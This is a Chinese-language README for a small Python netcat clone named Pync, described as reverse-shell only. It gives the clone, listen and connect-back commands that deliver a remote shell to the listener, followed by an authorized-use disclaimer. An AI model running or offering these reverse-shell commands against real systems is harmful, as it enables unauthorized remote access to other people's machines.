

# python版简易nc

## 介绍

1. 使用socket建立网络传输
2. 解决了tcp粘包问题
3. 仅支持反弹操作

## 安装

环境

```
python >= 3.7
windows/linux
```

安装

````
git clone https://github.com/1derian/Pync.git
cd Pync
````

## 使用

监听

```
python3 nc.py -p 5656
```

反弹

```
python3 nc.py -r 127.0.0.1 -p 5656 
```

此时监听方收到反弹的shell



退出

```
exit
```

## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。